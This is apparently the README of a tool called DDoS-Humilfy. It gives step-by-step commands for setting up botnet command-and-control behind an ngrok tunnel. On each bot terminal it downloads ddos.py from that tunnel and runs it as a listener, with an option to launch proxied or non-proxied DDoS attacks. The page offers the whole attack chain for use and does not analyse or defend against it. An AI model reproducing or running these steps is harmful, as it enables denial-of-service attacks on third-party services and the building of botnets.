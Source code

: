 # How to use

---
## Setup botnet remote (Main terminal)
``` bash
curl -sSL https://ngrok-agent.s3.amazonaws.com/ngrok.asc | sudo tee /etc/apt/trusted.gpg.d/ngrok.asc >/dev/null && echo "deb https://ngrok-agent.s3.amazonaws.com buster main" | sudo tee /etc/apt/sources.list.d/ngrok.list && sudo apt update && sudo apt install ngrok
ngrok ngrok config add-authtoken <token>
php -S 127.0.0.1:8080 | ngrok http 8080 # In DDoS-Humilfy directory
```
---
---
```bash
# On another session in main terminal
python3 remote.py
```
- Now, once you successfully run the remote program type this:
```bash
set-kkey
KKey-cjs: https://<ngrok link>/command.json
KKey-cph: https://<ngrok link>/command.php
KKey-aph: https://<ngrok link>/accepted.php
```
---


---
## Setup botnet receiver (In another terminal/Botnet)
- You need another terminal for your botnet.
``` bash
wget https://<ngrok link>/ddos.py
python3 ddos.py --listener # Use --no-proxy if you want to launch non-proxied DDoS attack
```
---
---
## Input
``` python
[~] Command host: https://<ngrok link>/command.json
[~] Accept host: https://<ngrok link>/accepted.php
[+] Waiting for commands..
```
---
